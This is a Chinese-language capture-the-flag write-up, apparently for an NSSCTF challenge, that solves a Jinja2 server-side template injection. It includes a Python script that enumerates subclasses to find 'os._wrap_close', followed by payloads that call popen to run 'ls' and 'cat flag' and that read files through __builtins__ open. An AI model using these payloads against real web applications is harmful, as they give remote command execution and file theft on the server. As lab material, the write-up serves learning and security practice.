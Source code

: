 ![image-20250227215936166](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227215936166.png)

这里有很多类，但我们需要的是可以执行系统命令的class 'os._wrap_close'，ctrlf可以找到该类的位置所在，但并不清楚该类的序号，一个一个数自然是不现实。网上找了一个可以查询需要类的序号的脚本：

```python
import requests

headers = {

  'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}

for i in range(500):

  url = "http://node5.anna.nssctf.cn:26744/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"#查找object类所有子类的payload

  res = requests.get(url=url, headers=headers)

  \#print(res.text)

  if 'os._wrap_close' in res.text:  #写入需要的类  

​    print(i)
```

![image-20250227220008479](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227220008479.png)

结果为137

输入：`?name={{''.__class__.__bases__[0].__subclasses__()[137].__init__.__globals__}}`，初始化以后访问全局变量，得到回显正常，即可通过popen，read方法执行命令

输入：`?name={{''.__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('ls').read()}}`

得到回显：app.py flag 

输入：

`?name={{''.__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('cat flag').read()}}`

或`?name={{''.__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['__builtins__']['open']('flag').read()}}`

得到flag



```
一些整理：

.__class__：返回当前类

.__subclasses__：获取指定类的所有子类

.__bases__：返回所有父类

.__base__：返回当前类的父类

.__mro__：获取当前类的调用顺序
```
